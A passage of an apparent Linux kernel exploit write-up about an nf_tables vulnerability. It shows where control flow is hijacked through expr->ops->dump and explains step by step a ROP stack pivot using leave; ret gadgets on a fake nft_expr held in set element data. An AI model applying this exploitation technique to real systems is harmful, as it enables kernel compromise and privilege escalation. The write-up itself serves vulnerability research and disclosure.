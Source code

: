   ```c
		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...

  ```
### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov     rax, [rbp+0]
	mov     rsi, rbp
	mov     rdi, rbx
	mov     rax, [rax+40h]
	call    __x86_indirect_thunk_rax
```
So the `rbp` is the pointer of the current `nft_expr`, and it will be the start of `NFTA_SET_ELEM_DATA` when it comes to the fake `nft_expr`:


The first step of ROP start looks like this:
```
expr->ops->dump(skb, expr)  --> leave ; ret 
```
This will finally makes this happen:

```
rsp = element + 0x68 // mov rsp, rbp  
rbp = *(element + 0x68) //pop rbp  rbp=*(NFTA_SET_ELEM_DATA)
rsp = element + 0x70 
rip = *(element + 0x70) //ret   rip=*(NFTA_SET_ELEM_DATA + 8)
rsp = element + 0x78 
```
The second step of ROP is also:
```
leave; ret
```
After this, the `rsp` will be the value of the `NFTA_SET_ELEM_DATA[0]`. It will point to the heap, which we filled it with our ROP gadget in `Leak info` step 11.
